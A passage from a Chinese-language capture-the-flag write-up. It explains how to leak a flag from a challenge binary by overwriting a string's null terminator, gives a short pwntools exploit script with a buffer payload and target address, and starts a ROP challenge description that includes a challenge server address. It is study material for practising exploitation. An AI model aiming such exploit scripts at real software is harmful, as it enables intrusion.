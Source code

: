 ![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxm97xrnbj315i0nkaiw.jpg)

可以看出flag已经存在内存中

后面有一个把指定地址的内容写为1的操作

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxmew547dj315e0kodq2.jpg)

可以将flag前一段name的末位\0修改，在打印name的时候将flag打印出来

写exp

```python
#!/usr/bin/env python2  

# -*- coding: utf-8 -*-  

from pwn import *

p = process('./one')
#p = remote("47.103.214.163",  20002)

gdb.attach(p,'b *0x04007FB')

p.recvuntil('name?\n')
p.sendline('a'*32)
p.recvuntil('one shot!\n')
p.sendline('6295776')

p.interactive()

```

### ROP_LEVEL0

>描述
>
>ROP is PWNers' romance
>nc 47.103.214.163 20003
>
>题目地址 链接:https://pan.baidu.com/s/1Eh_CXYKHKDOtxgRGhKF2Wg  密码:l96z
>
>基准分数 150
>
>当前分数 150
>
>完成人数 88

例行检查

![checksec](https://tva1.sinaimg.cn/large/0082zybpgy1gbxmqpqjlij30xe074dip.jpg)

看到没有后门程序，就想到了ret2libc（然而并不是预期解

